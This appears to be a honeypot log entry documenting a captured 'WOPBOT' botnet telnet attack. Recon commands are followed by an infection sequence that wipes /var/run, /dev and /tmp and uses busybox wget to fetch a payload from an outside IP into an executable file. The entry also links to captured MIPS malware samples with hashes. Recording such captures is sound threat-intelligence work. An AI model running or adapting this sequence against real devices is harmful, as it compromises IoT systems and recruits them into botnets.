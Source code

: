 ### Recon phase
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```
### Infection phase
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/1.mp.7z) (ELF 32-bit, MIPS, MD5: eab8da47ff36cafd2662fd01b6959389)
* [2.mp](https://github.com/stamparm/hontel/raw/master/captured/WOPBOT/2.mp.7z) (ELF 64-bit, MIPS, MD5: 4565f96cd8498a7e15ffa99e0d435d11)
